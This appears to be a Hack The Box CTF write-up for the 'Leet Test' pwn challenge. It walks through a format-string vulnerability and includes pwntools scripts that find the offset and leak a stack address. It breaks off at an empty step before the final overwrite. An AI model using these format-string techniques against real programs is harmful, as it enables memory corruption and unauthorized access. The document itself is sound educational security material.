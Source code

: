 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75326314-963d-462d-ba71-12a3692634c1)![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6042dc21-4df4-457f-99bc-7e062796326a)# Leet Test
> Write-up author: jon-brandy
## DESCRIPTION:
Are you 1337 enough?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```
┌──(brandy㉿bread-yolk)-[~/Downloads/leet_test]
└─$ file leet_test 
leet_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c6e69bc8fc90c94520adb2fc11a0d7d7b85326f6, for GNU/Linux 3.2.0, not stripped
```

> BINARY PROTECTIONS

```
┌──(brandy㉿bread-yolk)-[~/Downloads/leet_test]
└─$ pwn checksec leet_test                              
[*] '/home/brandy/Downloads/leet_test/leet_test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


2. After decompiled the binary, seems the concept here is overwriting stack variable using format strings vulnerability.
3. It's proven by no potential BOF but there is format strings vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6656022e-a408-4e6e-af3b-f7873e468318)


4. Analyzing the main functions, we know that we can overwrite 2 variables there, the `local_13c` which held the random values.
5. And `winner` variable which held the 0xcafebabe value.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd203988-b454-4106-b115-ae41377c0d5c)


6. We can just overwrite them as 0, so it would be look like this:

```
0 * 0x1337c0de == 0
```

7. With this, when we run the binary, it will break out of the while loop then cat the flag for us.
8. Great! Here's what we need to do:

```
- Get the fmtstr offset.
- Calculate the exact address for the variable that held the random value.
- grab the address for winner.
```


### GET THE FORMAT STRING OFFSET

- To grab the format string offset, i used the template from pwnlib documentation and modified it.

> OUR SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript ='''
init-pwndbg
continue
'''.format(**locals())

exe = './leet_test'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

def payload(exp):
    sh.sendline(exp)
    sh.recvuntil(b'Hello,')
    return sh.recvline().strip()

sh = start()
#pause()
format_str = FmtStr(execute_fmt=payload)
log.success('Format strings offset : %d', format_str.offset)

sh.interactive()
```

> RESULT --> offset at 10

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/40a3d2d6-8bcb-4d55-ada0-5f9dbcf2aee8)


- Let's calc the address for the random value.

#### NOTES: When i tried to solve this challenge remotely, the offset at the remote server is different, beauty of PWN 😭. So i'm gonna show you how to solve both locally and remotely.

> CALC THE ADDRESS LOCALLY

- After grab and calculate every stack address i leaked, the correct one is at 18 (mine locally).

> USE GDBSCRIPT TO BREAK AT 0x00000000004013a7

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ee4ecec7-d600-4a73-b29e-aa96f8b10808)


> CALC SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript ='''
init-pwndbg
break * 0x00000000004013a7
continue
'''.format(**locals())

exe = './leet_test'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

def payload(exp):
    sh.sendline(exp)
    sh.recvuntil(b'Hello,')
    return sh.recvline().strip()

sh = start()
#pause()
format_str = FmtStr(execute_fmt=payload)
log.success('Format strings offset : %d', format_str.offset)

sh.sendlineafter(b':', '%{}$p'.format(18))
sh.recvuntil(b'Hello,')
get = sh.recvline().strip()
#print(get)
get_addr = int(get, 16)
log.success('LEAKED STACK ADDRESS --> %#0x', get_addr)

calc = get_addr - 272
log.success('CALCULATED --> %#0x', calc)

sh.interactive()
```

- Notice our RAX held the random value.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/64d8749f-a355-4ff3-b8fc-0e7064764e0d)


- And we have the same address as the random value variable.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/89329073-fa0d-4ea5-b026-17569432cd8c)


9. Now we just need to grab the `winner` address.

> RESULT --> 0x404078
 
![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90bebb50-8652-41cf-b246-d556ae8837b2)


10. 
